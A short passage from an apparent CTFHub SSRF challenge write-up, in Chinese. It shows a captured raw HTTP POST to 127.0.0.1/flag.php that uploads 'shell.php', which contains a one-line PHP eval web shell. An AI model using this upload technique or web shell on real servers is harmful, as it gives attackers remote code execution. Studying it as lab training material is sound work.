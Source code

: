 ![](./img/ssrf-upload1.png)

尝试上传文件，但只能127.0.0.1访问，接下来同理POST请求，抓包上传文件

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-9e8e6b5360466489.sandbox.ctfhub.com:10080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC8WybWFRf89XBIAg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-9e8e6b5360466489.sandbox.ctfhub.com:10080/?url=127.0.0.1/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77
Connection: close

------WebKitFormBoundaryC8WybWFRf89XBIAg
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval(@$_POST['kite']); ?>
------WebKitFormBoundaryC8WybWFRf89XBIAg
```
